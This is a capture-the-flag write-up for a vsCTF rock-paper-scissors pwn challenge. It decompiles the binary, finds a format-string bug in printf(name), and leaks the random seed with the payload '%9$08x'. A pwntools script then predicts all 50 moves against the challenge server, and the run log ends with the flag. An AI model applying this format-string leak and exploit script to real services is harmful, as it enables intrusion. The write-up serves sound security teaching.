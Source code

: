```yaml
---
author: micronoyau
layout: post
date: 2023-09-25 12:00:00 +0200
title: "Rock-Paper-Scissors"
excerpt_separator: <!--more-->
---
```


# Rock-Paper-Scissors

In this challenge, we are given a rock-paper-scissors binary and must win 50 times in a row to get the flag.

## Disassembly and analysis

First, let's analyze this game with ghidra. The main function consists at its core of the following :

```
fd = open("/dev/urandom",0);
if (fd < 0) {
  printf("Opening /dev/urandom failed");
  exit(1);
}
read(fd,&seed,4);
close(fd);
srand(seed);
printf("Enter your name: ");
fgets(name,0x14,stdin);
printf("Hi ");
printf(name);
puts("Let\'s play some Rock Paper Scissors!");
puts("If you beat me 50 times in a row I\'ll give you a special prize.");
for (i = 0; i < 0x32; i = i + 1) {
  res = rps();
  if (res != '\x01') {
    puts("You didn\'t beat me enough times. Too bad!");
    exit(1);
  }
}
win();
```

The vulnerability is immediatly identified as a format string. We could try to rewrite the return address of rps to redirect to win, but a quick checksec shows us its not going to be easy because this binary is position-independent :
```
Canary                        : ✓ 
NX                            : ✓ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full
```
Moreover, the buffer for `name` is only 20 bytes long so we need to find an efficient payload. Lets look at the `rps` function :
```
undefined8 rps(void)
{
  int r;
  undefined8 uVar1;
  long in_FS_OFFSET;
  char user_choice;
  char rand_choice;
  int local_18;
  undefined2 rp;
  undefined s;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  user_choice = '\0';
  rp = 0x7072;
  s = 0x73;
  r = rand();
  rand_choice = *(char *)((long)&rp + (long)(r % 3));
  puts("Let\'s play!");
  do {
    if (((user_choice == 'r') || (user_choice == 'p')) || (user_choice == 's')) {
      if ((((user_choice == 'r') && (rand_choice == 's')) ||
          ((user_choice == 'p' && (rand_choice == 'r')))) ||
         ((user_choice == 's' && (rand_choice == 'p')))) {
        puts("You win!");
        uVar1 = 1;
      }
      else {
        puts("You lost.");
        uVar1 = 0;
      }
      if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
        __stack_chk_fail();
      }
      return uVar1;
    }
    printf("Enter your choice (r/p/s): ");
    __isoc99_scanf(&DAT_0010203b,&user_choice);
    do {
      local_18 = getchar();
      if (local_18 == 10) break;
    } while (local_18 != -1);
  } while( true );
}
```

The interesting part is the random choice selection : basically, we could rewrite it
```
rps = "rps";
r = rand();
rand_choice = rps[r%3];
```

## Pseudorandom number generators

In C, the `rand` function produces pseudo-random outputs from a chosen value called seed. The pseudorandom generator is initialized by calling the function `srand` at the beginning of function `main`, and the seed is chosen by reading `/dev/urandom` which produces pseudorandom numbers on linux devices. If we could somehow know the seed, we could then predict the entire rock-paper-scissors sequence. Let's use the format string vulnerability for this !

## Exploiting the format string bug

We find that the seed can be accessed as the 9th word on the stack when calling `printf(name)`. We then automate the winning process using pwntools et voilà !

```
from ctypes import CDLL
from pwn import *

conn = remote('vsc.tf', 3094)

print(conn.recvuntil(b": "))
conn.sendline(b'%9$08x')
seed = int(str(conn.recvline()[3:-1])[2:-1], base=16)

print(conn.recvline())
print(conn.recvline())

libc = CDLL("libc.so.6")
libc.srand(seed)

choices = "rps"

for i in range(50):
    print(conn.recvline())
    print(conn.recvuntil(b': '))
    r = choices[libc.rand()%3]
    if r == 'r':
        conn.sendline(b'p')
    elif r == 'p':
        conn.sendline(b's')
    else:
        conn.sendline(b'r')
    print(conn.recvline())

print(conn.recv())
```

The result is
```
[micronoyau@pwnixos:~/Documents/vsctf/RPS]$ python res.py 
[+] Opening connection to vsc.tf on port 3094: Done
b'Enter your name: '
b"Let's play some Rock Paper Scissors!\n"
b"If you beat me 50 times in a row I'll give you a special prize.\n"
b"Let's play!\n"
b'Enter your choice (r/p/s): '
b'You win!\n'
b"Let's play!\n"
b'Enter your choice (r/p/s): '
b'You win!\n'
[...]
b"Let's play!\n"
b'Enter your choice (r/p/s): '
b'You win!\n'
b'vsctf{Wh4t_da_h3ck_br0_gu355_g0d_kn0ws_4ll_my_m0v3s_:(((}\n\n'
[*] Closed connection to vsc.tf port 3094
```
Got the flag :)

